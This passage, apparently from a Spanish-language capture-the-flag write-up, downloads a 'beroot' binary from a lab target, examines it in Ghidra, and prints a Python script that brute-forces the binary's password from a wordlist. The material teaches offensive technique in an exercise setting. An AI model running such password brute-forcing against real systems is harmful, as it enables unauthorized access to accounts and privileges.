 Desde el host.

```shell
wget http://<IP>:8000/beroot
```

Echo esto nos importaremos el binario en el espacio de trabajo de `ghidra`, lo analizamos y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-21 100657.png" alt=""><figcaption></figcaption></figure>

Vemos que el `main` esta ejecutando el script que se encuentra en `/root/beroot.sh` por lo que no podremos saber que hace realmente dicho binario por dentro ya que lo esta ejecutando desde otro binario.

No nos queda otra que realizar `fuerza bruta` a dicho binario para sacarle la contraseña.

> forceBinary.py

```python
#!/bin/python3

import subprocess

def brute_force_beroot(dictionary_path, binary_path):
    with open(dictionary_path, "r", encoding="latin-1") as f:
        passwords = [line.strip() for line in f]

    for password in passwords:
        try:
            # Ejecutar el binario y pasar la contraseña
            result = subprocess.run(
                [binary_path],
                input=password + "\n",
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                universal_newlines=True,
                timeout=2  # evitar cuelgues si el binario se queda esperando
            )

            output = result.stdout + result.stderr

            # Verificamos si no contiene el mensaje de contraseña incorrecta
            if "wrong password!!!" not in output.lower():
                print(f"[+] Contraseña encontrada: {password}")
                print("[+] Salida del programa:")
                print(output)
                break
            else:
                print(f"[-] Intento fallido: {password}")
        except subprocess.TimeoutExpired:
            print(f"[!] Timeout con: {password}")
        except Exception as e:
            print(f"[!] Error con '{password}': {e}")
```